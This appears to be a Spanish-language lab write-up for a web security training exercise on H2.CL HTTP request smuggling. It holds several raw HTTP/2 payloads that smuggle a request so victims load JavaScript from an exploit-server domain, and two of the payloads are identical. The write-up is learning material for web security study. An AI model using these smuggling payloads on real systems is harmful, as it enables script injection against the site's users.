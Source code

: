 ```yaml
---
layout: default
title: 12 - H2.CL request smuggling
---
```

La cosa aquí es que HTTP/2 separa en frames las conexiones y les asigna un length, por lo que no se puede explotar HTTP request smuggling, la única forma de hacerlo es con un downgrade.

Aprovechar un H2.CL significa que el frontend interpretará y medirá el content length usando la técnica que se usa en HTTP/2  y no entenderá Content-Length, cosa que si entenderá el backend, y así podemos spoofearlo para colarle otra petición al backend.

La cosa aquí es que se cargue un js de un dominio externo :

Esto puede que no funcione porque igual se añaden cabeceras duplicadas y producen fallos.

```HTTP
POST /test HTTP/2\r\n
Host: 0aa0003504478749805e305400be004e.web-security-academy.net\r\n
Content-Length: 0\r\n
\r\n
GET /exploit.js HTTP/1.1\r\n
Host: exploit-0ab500db040187c880912ff301020053.exploit-server.net\r\n
X-Ignore: X
```

Mejor hacerlo así a veces para el tema de las cabeceras duplicadas

```HTTP
POST /test HTTP/2\r\n
Host: 0aa0003504478749805e305400be004e.web-security-academy.net\r\n
Content-Length: 0\r\n
\r\n
GET /exploit.js HTTP/1.1\r\n
Host: exploit-0ab500db040187c880912ff301020053.exploit-server.net\r\n
Content-Length: 6\r\n

x=
```

Como no funcionaba hosteando un script, lo hice cargando el recurso de resources:

```HTTP
POST /test HTTP/2\r\n
Host: 0aa0003504478749805e305400be004e.web-security-academy.net\r\n
Content-Length: 0\r\n
\r\n
GET /exploit.js HTTP/1.1\r\n
Host: exploit-0ab500db040187c880912ff301020053.exploit-server.net\r\n
Content-Length: 6\r\n

x=
```

